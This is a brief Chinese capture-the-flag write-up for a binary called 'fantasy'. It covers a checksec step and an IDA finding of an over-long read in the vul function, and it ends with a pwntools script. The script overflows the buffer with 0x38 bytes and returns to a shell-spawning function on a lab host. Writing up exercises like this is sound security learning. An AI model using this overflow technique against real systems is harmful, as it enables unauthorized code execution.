 首先`checksec`

![fantasy](C:\Users\liu\Desktop\Notes\images\fantasy.png)

然后ida发现，在`vul`函数中读入超限，所以可以直接覆盖返回地址，执行`fantasy`函数获得shell。exp如下：

```python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")

# io = process("./fantasy")
io = remote("172.21.4.12", 10101)

payload = "a" * 0x38 + p64(0x400735)

io.sendline(payload)
io.interactive()
```

